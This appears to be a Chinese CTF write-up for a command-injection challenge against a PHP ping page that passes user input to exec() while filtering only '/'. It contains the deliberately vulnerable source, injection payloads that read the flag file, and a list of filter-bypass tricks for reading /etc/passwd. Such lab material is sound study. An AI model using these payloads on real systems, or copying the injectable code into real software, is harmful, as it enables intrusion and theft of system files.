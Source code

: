     127.0.0.1;cat$IFS$9flag_11971489425983.php
    

![](https://track123.oss-cn-beijing.aliyuncs.com/20250209123528732.png)

### 过滤目录分隔符

几种常见的 / 符号绕过方法

    改变工作目录：cd xxx   避免使用 / 符号
    环境变量截取： ${PATH:0:1}   ${HOME:0:1}
    编码绕过：8进制： $(printf "\57")    16进制： $'\x2f'      $'\57'
    调用命令生成：a=$(printf "/"); cat ${a}etc${a}passwd     cat  `echo /`etc`echo /`passwd
    通配符替代(部分路径已知)：/???/cat /???/passwd            //匹配 /bin/cat
    利用反斜杠：cat \/etc\/passwd
    协议替代：file_get_contents('glob:///*'); 
    

提示：

![](https://track123.oss-cn-beijing.aliyuncs.com/20250209160708256.png)

源码

    <?php
    
    $res = FALSE;
    
    if (isset($_GET['ip']) && $_GET['ip']) {
        $ip = $_GET['ip'];
        $m = [];
        if (!preg_match_all("/\//", $ip, $m)) {         //过滤了 / 符号
            $cmd = "ping -c 4 {$ip}";
            exec($cmd, $res);
        } else {
            $res = $m;
        }
    }
    ?>
    

查看当前目录

![](https://track123.oss-cn-beijing.aliyuncs.com/20250209163512670.png)

进入该目录并查看

![](https://track123.oss-cn-beijing.aliyuncs.com/20250209163601247.png)

执行以下命令读取flag文件

    127.0.0.1;cd flag_is_here;cat flag_29914267619184.php
    

得到flag

![](https://track123.oss-cn-beijing.aliyuncs.com/20250209162214801.png)
